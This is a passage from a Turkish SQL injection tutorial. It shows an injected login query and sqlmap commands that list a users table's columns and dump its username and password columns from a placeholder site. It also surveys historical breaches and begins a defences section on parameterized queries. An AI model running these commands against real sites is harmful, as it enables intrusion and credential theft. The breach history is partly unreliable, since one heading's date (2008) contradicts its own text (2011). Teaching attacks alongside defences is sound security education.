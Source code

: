 ```SELECT * FROM kullanicilar WHERE kullaniciAdi ='' or '1' = '1 + " ';​```
### 3.3.5 Tablolardaki Sütunları Listeleme​

Seçilen tablodaki sütunları listeleyerek hassas bilgilerin olduğu sütunları belirliyoruz. Örneğin, kullanicilar adlı bir tabloyu hedef alalım:​

```sqlmap -u "http://hedefsite.com/urunler.php?id=1" -D hedef_db -T kullanicilar –columns​```

Bu komut, kullanicilar tablosundaki tüm sütunları listeler.​

### 3.3.6 Hassas Verileri Çıkartma​

Son olarak, belirlenen sütunlardan hassas verileri çıkartıyoruz. Örneğin, kullaniciAdi ve sifre sütunlarını hedef alalım:​

```sqlmap -u "http://hedefsite.com/urunler.php?id=1" -D hedef_db -T kullanicilar -C kullaniciAdi,sifre –dump​```

Bu komut, kullanicilar tablosundaki kullaniciAdi ve sifre sütunlarının tüm verilerini çıkarır.​

# 4-Tarihteki Saldırılar​

## 2008 Heartland Payment Systems İhlali​

Heartland Payment Systems, ABD'deki en büyük ödeme işlemcilerinden biriydi. 2008 yılında SQL injection yoluyla gerçekleştirilen bir saldırıda, yaklaşık 130 milyon kredi kartı bilgisi çalındı. Bu saldırı, Albert Gonzalez ve ekibi tarafından gerçekleştirildi ve tarihin en büyük veri ihlallerinden biri olarak kaydedildi.​

## 2008 HBGary Federal Saldırısı​

2011 yılında HBGary Federal adlı siber güvenlik firmasına yönelik bir SQL injection saldırısı gerçekleştirildi. Anonymous adlı hacktivist grup, HBGary Federal'in CEO'su Aaron Barr'ın şirketin web sitesine yaptığı zayıf güvenlik önlemlerini kullanarak veritabanına erişti ve binlerce e-posta ve diğer hassas bilgileri sızdırdı.​

## 2012 Yahoo! Veri İhlali​

Yahoo!'nun 2012'de yaşadığı veri ihlali, SQL injection yoluyla gerçekleştirilen büyük bir saldırıydı. Bu saldırıda, Yahoo'nun kullanıcı kimlik bilgileri çalındı. Yaklaşık 450.000 hesap bilgisi, zayıf güvenlik önlemleri ve SQL injection açıkları nedeniyle ele geçirildi.​

## Sony Pictures Saldırısı 2014​

2014 yılında Sony Pictures, Guardians of Peace (GOP) adlı bir hacker grubu tarafından saldırıya uğradı. Bu saldırıda SQL injection teknikleri kullanılarak şirketin veritabanına erişildi ve büyük miktarda veri çalındı. Çalınan veriler arasında şirket içi e-postalar, çalışan bilgileri ve henüz yayınlanmamış filmler yer alıyordu.​

## TalkTalk Veri İhlali 2015​

2015 yılında İngiltere merkezli telekomünikasyon şirketi TalkTalk, SQL injection saldırısına maruz kaldı. Bu saldırıda, yaklaşık 157.000 müşterinin kişisel bilgileri çalındı. Saldırganlar, şirketin web sitesindeki bir güvenlik açığını kullanarak bu saldırıyı gerçekleştirdi.​

# ​5-Saldırılara Karşı Önlemler

## 1.Parametrik Sorgular Kullanma​

SQL injection saldırılarına karşı en etkili koruma yöntemlerinden biri parametrik sorgular kullanmaktır. Parametrik sorgular, kullanıcı girdilerini SQL komutlarından ayırarak veritabanı sorgularının güvenli bir şekilde çalıştırılmasını sağlar. Bu yöntem, kullanıcı girdilerinin doğrudan sorguya eklenmesini engeller ve saldırganların kötü niyetli SQL kodları enjekte etmesini zorlaştırır. Örneğin, PHP'de hazırlıklı ifadeler (prepared statements) kullanarak parametrik sorgular oluşturulabilir.​

```